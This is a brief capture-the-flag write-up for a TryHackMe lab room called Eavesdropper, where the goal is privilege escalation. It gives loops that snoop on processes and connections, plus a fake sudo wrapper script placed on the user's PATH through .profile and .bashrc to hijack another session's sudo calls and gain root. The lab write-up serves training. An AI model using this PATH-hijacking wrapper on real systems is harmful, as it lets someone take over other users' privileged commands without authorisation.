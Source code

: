 # Eavesdropper room:

https://tryhackme.com/room/eavesdropper

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ while true; do sleep 0.01; netstat -naplet; done`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH (via .profile & .bashrc) and wait for execution.

Check the /root with sudo wrapper.

Capture the flag :)
